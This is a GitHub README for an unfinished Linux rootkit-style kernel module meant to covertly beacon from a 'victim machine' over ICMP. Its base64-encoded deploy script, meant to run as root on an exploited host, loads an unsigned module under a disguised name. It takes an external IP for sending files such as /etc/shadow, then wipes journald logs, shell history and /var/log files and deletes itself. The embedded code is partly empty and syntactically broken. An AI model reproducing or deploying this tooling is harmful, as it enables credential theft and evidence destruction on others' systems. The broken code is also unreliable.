 # Kernel Delirium (Not working yet, still requires development)

## What is it about

My idea was to create a kernel module for linux machine which is basically a beacon to spy on machine using ICMP protocoll which is usually less suspicious then tcp/udp f.ex, so even some firewalls don't mind. Additionally inexperienced System admin is not gonna try to look it up in kernel modules. Maybe in future to hide it better, I'll include the module in the system one

## How to use?

To use this software you should install a desktop app and run deploy_and_clean.py (I recommend to assemble file with base64)on the victim machine

### victim machine

```bash
base64 -d aW1wb3J0IG9zCmltcG9ydCBhcmdwYXJzZQoKI21vZHVsZV9uYW1lIGlzIG5lZWRlZCB0byBoaWRl
IHRoZSBleHBsb2l0IHVuZGVyIHRoZSBuYW1lIHdoaWNoIGlzIG5vdCBzdXNwaWNpb3VzCmRlZiBl
eHBsb2l0X2dlbihleHRlcm5hbF9pcCwgZXh0ZXJuYWxfcG9ydCwgbW9kdWxlX25hbWUgPSAiZXRo
ZXJuZXQuYyIsIGZpbGVzID0gW10sIHVwZGF0ZV9wZXJpb2Q9MSk6CiAgICBNT0RVTEVfQ09ERT0i
IiIiIiIKICAgIHByaW50KGV4dGVybmFsX2lwLCBleHRlcm5hbF9wb3J0LCBtb2R1bGVfbmFtZSwg
dXBkYXRlX3BlcmlvZCkKICAgIHByaW50KGZpbGVzWzBdKQogICAgcHJpbnQoZmlsZXNbMV0pCgpk
ZWYgbG9hZF9tb2R1bGUobW9kdWxlTmFtZSk6CiAgICBNQUtFRklMRT1mIiIiQ09ORklHX01PRFVM
RV9TSUc9bgpvYmotbSArPSB7bW9kdWxlTmFtZX0KCmFsbDoKCXN1ZG8gYXB0LWdldCBpbnN0YWxs
IC0tcmVpbnN0YWxsIC15IGxpbnV4LWhlYWRlcnMtJCh1bmFtZSAtcikKCW1ha2UgLUMgL2xpYi9t
b2R1bGVzLyQoc2hlbGwgdW5hbWUgLXIpL2J1aWxkIE09JChQV0QpIG1vZHVsZXMKCXN1ZG8gaW5z
bW9kIGR2dC1kcml2ZXIua28KCmNsZWFuOgoJbWFrZSAtQyAvbGliL21vZHVsZXMvJChzaGVsbCB1
bmFtZSAtcikvYnVpbGQgTT0kKFBXRCkgY2xlYW4KCXJtIC1yZiAqLmMgKi5vICoua28gKi5tb2Qg
Ki5tb2QuYyIiIgoKICAgIHdpdGggb3BlbigiTWFrZWZpbGVfdHN0IiwgInciKSBhcyBmOgogICAg
ICAgIGYud3JpdGUoTUFLRUZJTEUpCiAgICAjb3Muc3lzdGVtKCIgbWFrZSIpCgoKZGVmIGNsZWFu
dXAoKToKICAgIG9zLnN5c3RlbSgiIG1ha2UgY2xlYW4iKQogICAgb3Muc3lzdGVtKCIgam91cm5h
bGN0bCAtLXZhY3V1bS10aW1lPTEwZCIpCiAgICBvcy5zeXN0ZW0oIiBoaXN0b3J5IC1jIikKICAg
IGZvciBmaWxlIGluIG9zLmxpc3RkaXIoIi92YXIvbG9nIik6CiAgICAgICAgd2l0aCBvcGVuOgog
ICAgICAgICAgICBmaWxlLnRydW5jYXRlKCkKICAgIG9zLnJlbW92ZShfX2ZpbGVfXykKCmRlZiBt
YWluKCk6CiAgICBwYXJzZXIgPSBhcmdwYXJzZS5Bcmd1bWVudFBhcnNlcihkZXNjcmlwdGlvbiA9
ICJUaGlzIHNjcmlwdCBzaG91bGQgYmUgcmFuIGFzIHJvb3Qgb24gZXhwb2l0ZWQgbWFjaGluZSB0
byBjcmVhdGUgYW5kIGxvYWQgYSBzdWl0YWJsZSBmb3IgeW91ciB0YXNrcyBjIGtlcm5lbCBtb2R1
bGUgdG8gc3B5IG9uIHNwZWNpZmljIGZpbGVzIGFuZCBzdGF5IGhpZGRlbiIpCiAgICBwYXJzZXIu
YWRkX2FyZ3VtZW50KCItLWV4dGVybmFsX2lwIiwgdHlwZSA9IHN0ciwgaGVscCA9ICJQcm92aWRl
IGFuIGV4dGVybmFsIG1hY2hpbmUgSVAgQUREUkVTUyB0aGF0IHdpbGwgYmUgdXNlZCIpCiAgICBw
YXJzZXIuYWRkX2FyZ3VtZW50KCItLWV4dGVybmFsX3BvcnQiLCB0eXBlID0gc3RyLCBoZWxwID0g
IlByb3ZpZGUgYW4gZXh0ZXJuYWwgbWFjaGluZSBQT1JUIHRoYXQgd2lsbCBiZSB1c2VkIiwgZGVm
YXVsdD0iMjIiKQogICAgcGFyc2VyLmFkZF9hcmd1bWVudCgiLS1tb2R1bGVfbmFtZSIsIHR5cGUg
PSBzdHIsIGhlbHAgPSAiTmFtZSBvZiB0aGUgbW9kdWxlIGYuZXggZXRoZXJuZXRfbW9kdWxlLCBp
dCdzIGJldHRlciBub3QgdG8gaGF2ZSB2aXJ1cyBvciBleHBvaXQgbmFtZSBvYnZpb3VzbHkiKQog
ICAgcGFyc2VyLmFkZF9hcmd1bWVudCgiLS1maWxlcyIsIHR5cGUgPSBzdHIsIG5hcmdzPSIrIiwg
aGVscD0iSGVyZSBhIGxpc3Qgb2YgZmlsZXMgdG8gYmUgc2VudCBzaG91bGQgYmUgcHJvdmlkZWQg
Zi5leCAvZXRjL2hvc3RzIC9ldGMvc2hhZG93cyIsIGRlZmF1bHQ9Ii9ldGMvc2hhZG93cyIpCiAg
ICBwYXJzZXIuYWRkX2FyZ3VtZW50KCItLXVwZGF0ZV9wZXJpb2QiLCB0eXBlID0gc3RyLCBoZWxw
ID0gIlRoZSBpbnRlcnZhbCBvZiB0aW1lIGluIHdoaWNoIGluZm9ybWF0aW9uIHNob3VsZCBiZSBn
YXRoZXJlZCBhZ2FpbiBhbmQgc2VuZCAoaW4gaG91cnMpLiBZb3Ugc2hvdWxkIGtub3cgdGhhdCB0
byBhdm9pZCBzdXNwaWNpb25zLCB0aW1lIHBlcmlvZCBtYXkgZGlmZmVyIHVwIHRvIDExIG1pbiIs
IGRlZmF1bHQ9IjEiKQogICAgYXJncyA9IHBhcnNlci5wYXJzZV9hcmdzKCkKICAgIGV4cGxvaXRf
Z2VuKGFyZ3MuZXh0ZXJuYWxfaXAsIGFyZ3MuZXh0ZXJuYWxfcG9ydCwgYXJncy5tb2R1bGVfbmFt
ZSwgYXJncy5maWxlcywgYXJncy51cGRhdGVfcGVyaW9kKQogICAgbG9hZF9tb2R1bGUoYXJncy5t
b2R1bGVfbmFtZSkKICAgIGNsZWFudXAoKQogICAgcmV0dXJuIDA7CgppZiBfX25hbWVfXyA9PSAi
X19tYWluX18iOgogICAgbWFpbigpCg== > deploy_and_clean.py`
```

```python
python3 deploy_and_clean.py`
```
### your machine
```bash
apt-get install kernel-delirium (Not gonna work yet)
```

```bash
kernel-delirium
```